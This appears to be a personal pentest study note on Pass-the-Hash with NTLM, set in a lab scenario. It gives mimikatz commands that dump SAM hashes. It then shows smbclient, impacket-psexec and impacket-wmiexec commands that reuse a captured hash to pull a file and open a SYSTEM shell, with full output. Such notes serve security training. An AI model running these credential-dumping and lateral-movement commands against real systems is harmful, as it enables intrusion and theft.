 
# Passing NTLM Hashes
When you get an [NTLM](../../networking/protocols/NTLM.md) hash from a victim system, you may not have to [crack it](cracking-NTLM.md). Because older versions of NTLM are insecure, and the authentication mechanism SUX, the victim system may be configured to *authenticate you with the hash and username alone*, no password needed. This is when you can use a *Pass the Hash* technique.

NTLM password hases *are not salted* and are *static between sessions*. They can be used (in combo w/ a username) to authenticate to local and remote machines, and to multiple machines on a network/ domain (as long as each target has an account with the same username and password). However, since Windows Vista, all [Windows](../../computers/windows/README.md) versions have *UAC Remote Restrictions* enabled by default, which mitigates this vuln.
## Example Scenario
Let's say we have two machines on a system, `Files01` and `Files02`. On `Files01` we found the username `gunther` with a password `password123`. 

On `Files02` there is a restricted [SMB](../../networking/protocols/SMB.md) share that we want to gain access to, but we need Admin privileges. Let's assume both machines have an `Administrator` user with the same password (which is common to see). 

If we connect to `Files01` using [RDP](../../networking/protocols/RDP.md) and the `gunther` account and password, we can see if we have access to the target SMB share by entering its path in Windows Explorer: `\\192.168.50.212\secretes`. Once we enter the filepath, we're prompted for credentials.
![](../oscp-pics/passing-NTLM-1.png)
Entering creds for `gunther` doesn't work, meaning the account doesn't have the right permissions, of *the account doesn't exist on `Files02`* where the `\secret` share is located. Let's break out [mimikatz](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md) to see if we can capture the NTLM hash for the local Administrator:
### Mimikatz
Just like in [cracking NTLM](cracking-NTLM.md), we'll get our `mimikatz.exe` binary onto `Files01`. Then open a [powershell](../../coding/languages/powershell.md) window as Administrator and run mimikatz. Once in the mimikatz repl shell thing, we'll run `privilege::debug` to gain the `SeDebugPrivilege` access rights on the machine. Then we can run `token::elevate` to get the NTLM hash for a process or account that has privileges to dump the [SAM](../../computers/windows/SAM.md).  Once we've done that, then we can run `lsadump::sam` to dump all of the NTLM hashes from the SAM and get the hash for the `Administator` user (local to `Files01`):
```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
...

mimikatz # lsadump::sam
...
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
...
```
### Tools for Passing the Hash
There are a few tools we can use to pass the hash, inlcuding Mimikatz:
- [smbclient](../../CLI-tools/linux/remote/smbclient.md)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec?tab=readme-ov-file)
- [impacket](../../cybersecurity/TTPs/exploitation/tools/impacket.md)
	- [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) for command execution
	- [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) for command execution
- [RDP](../../networking/protocols/RDP.md)
### Using `smbclient`
To Pass the Hash with [smbclient](../../CLI-tools/linux/remote/smbclient.md) we just have to add the `--pw-nt-hash` flag along with the username and share path:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Thu Jun  2 16:55:35 2022
  secrets.txt                         A        4  Thu Jun  2 11:34:47 2022

                4554239 blocks of size 4096. 771633 blocks available

smb: \> get secrets.txt
getting file \secrets.txt of size 4 as secrets.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
After giving the `smbclient` command, we gain a repl on the `\secrets` share of `Files02`. From here, we can use the `get` command to download the `secrets.txt` file onto our computer. Once we download that, we can disconnect from the share and cat the file to our terminal to see what it contains.
### Using `psexec.py`
`psexec.py` is an [impacket](../../cybersecurity/TTPs/exploitation/tools/impacket.md) script that is very similar to the OG [PsExec command](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) which is a Microsoft command line tool that's supposed to be a "light-weight [telnet](../../networking/protocols/telnet.md) replacement that lets you execute processes on other systems."

`psexec.py` works by searching for *writeable shares*. Once its found one, it will upload *an executable to it*. Then it will *register the executable as a Windows service* and start it. The result is an *interactive shell* (or some other form of code execution).

To execute this on Kali we can use the [`impacket-scripts`](https://www.kali.org/tools/impacket-scripts/) python package. This will allow us to access all of impacket's scripts as commands using the syntax: `impacket-<script name>`. To use the `psexec` script (with the hash we collected) our command would be:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.50.212.....
[*] Found writable share ADMIN$
[*] Uploading file nvaXenHl.exe
[*] Opening SVCManager on 192.168.50.212.....
[*] Creating service MhCl on 192.168.50.212.....
[*] Starting service MhCl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
FILES02

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::7992:61cd:9a49:9046%4
   IPv4 Address. . . . . . . . . . . : 192.168.50.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32> whoami
nt authority\system
```
BOOM! We used the local admin account's NTLM hash to gain a shell on the `Files02` machine.
### Using `wmiexec.py`
`wmiexec.py` is another impacket script we can use in combination with out hash to gain access to `Files02` as the local admin. All we have to do is run it with the `impacket-script` package and the same flags as we gave for `psexec.py`:
```bash
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```
This script uses the Windows [WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (Windows Management Instrumentation) system which runs under a user account (has to be an Admin account). It also doesn't generate event log messages (according to the `wmiexec.py` author comments).

> [!Resources]
> - [CrackMapExec Repo (no longer maintained RIP)](https://github.com/byt3bl33d3r/CrackMapExec?tab=readme-ov-file)
> - [Microsoft: PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
> - [`impacket-scripts`](https://www.kali.org/tools/impacket-scripts/)
> - [Microsoft: WMI](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
